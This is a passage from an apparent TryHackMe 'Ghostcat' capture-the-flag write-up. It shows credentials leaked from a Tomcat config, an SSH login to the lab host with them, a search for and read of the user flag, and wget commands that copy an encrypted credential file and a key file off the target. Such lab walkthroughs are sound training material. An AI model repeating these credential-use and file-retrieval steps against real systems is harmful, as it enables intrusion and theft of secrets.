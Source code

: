 ```
  </description>

</web-app>
root@kali:~/TryHackMe/Ghostcat-CNVD-2020-10487#
```

Founded credentials: skyfuck:8730281lkjlkjdqlksalks

### ssh

```
root@kali:~/TryHackMe# ssh skyfuck@10.10.7.42
The authenticity of host '10.10.7.42 (10.10.7.42)' can't be established.
ECDSA key fingerprint is SHA256:hNxvmz+AG4q06z8p74FfXZldHr0HJsaa1FBXSoTlnss.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.7.42' (ECDSA) to the list of known hosts.
skyfuck@10.10.7.42's password: 8730281lkjlkjdqlksalks
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ 
```

**user.txt**

```
skyfuck@ubuntu:~$ find / -name "user.txt" -print 2>/dev/null
/home/merlin/user.txt
skyfuck@ubuntu:~$ cat /home/merlin/user.txt 
THM{GhostCat_1s_so_cr4sy}
```


Some files have found.

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```


Download them to the local machine:

```
root@kali:~/TryHackMe# wget http://10.10.7.42:8000/credential.pgp
--2020-10-21 12:59:49--  http://10.10.7.42:8000/credential.pgp
Connecting to 10.10.7.42:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 394 [application/pgp-encrypted]
Saving to: ‘credential.pgp’

credential.pgp                       100%[===================================================================>]     394  --.-KB/s    in 0s      

2020-10-21 12:59:50 (11.4 MB/s) - ‘credential.pgp’ saved [394/394]

root@kali:~/TryHackMe# wget http://10.10.7.42:8000/tryhackme.asc
--2020-10-21 12:59:57--  http://10.10.7.42:8000/tryhackme.asc
```